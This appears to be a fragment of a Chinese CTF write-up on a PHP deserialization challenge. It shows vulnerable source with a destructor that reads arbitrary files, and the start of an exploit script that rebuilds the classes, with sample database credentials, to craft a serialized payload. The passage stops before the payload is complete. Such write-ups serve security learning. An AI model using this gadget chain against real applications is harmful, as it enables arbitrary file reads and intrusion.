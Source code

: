 ```php
            $nickname=$_POST['nickname'];
            return safe(serialize(new Info($age,$nickname)));
        }
    public function __destruct(){//任意读
            return file_get_contents($this->nickname);//危
        }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
```



```php
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```





脚本:

```php
<?php
Class UpdateHelper{
    public $id=0;
    public $newinfo="";
    public $sql;
    public function __construct($sql){
        $this->sql=$sql;
    }
//    public function __destruct()
//    {
//        echo $this->sql;
//    }
}
class Info{
    public $age="";
    public $nickname="";
    public $CtrlCase;
    public function __construct(){
        $this->CtrlCase=new dbCtrl();
    }
//    public function __call($name,$argument){//反序列化
//        echo $this->CtrlCase->login($argument[0]);
//    }
}
class dbCtrl
{
    public $hostname = "127.0.0.1";
    public $dbuser = "noob123";
    public $dbpass = "noob123";
```